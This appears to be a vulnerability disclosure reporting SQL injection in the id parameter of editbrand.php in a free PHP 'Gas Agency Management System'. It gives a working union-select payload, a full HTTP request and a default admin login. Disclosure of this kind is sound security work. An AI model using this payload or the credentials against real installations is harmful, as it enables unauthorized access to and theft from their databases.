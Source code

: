 # Gas Agency Management System v1.0 by mayuri_k has SQL injection

BUG_Author: 白万荣

Login account: mayuri.infospace@gmail.com/admin

vendors: https://www.sourcecodester.com/php/15586/gas-agency-management-system-project-php-free-download-source-code.html

The program is built using the xmapp-php8.1 version

Vulnerability File: /gasmark/editbrand.php?id=

Vulnerability location: /gasmark/editbrand.php?id=, id

dbname = gasmark

[+] Payload: /gasmark/editbrand.php?id=-1' union select 1,database(),3,4--+ // Leak place ---> id

```sql
GET /gasmark/editbrand.php?id=-1%27%20union%20select%201,database(),3,4--+ HTTP/1.1
Host: 192.168.1.88
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=1848l0sacnthbvkk77stfdihkh
Connection: close


```

![image](https://github.com/assets/54017627/93cd5d3f-e890-492a-af6e-edc861d777e6)
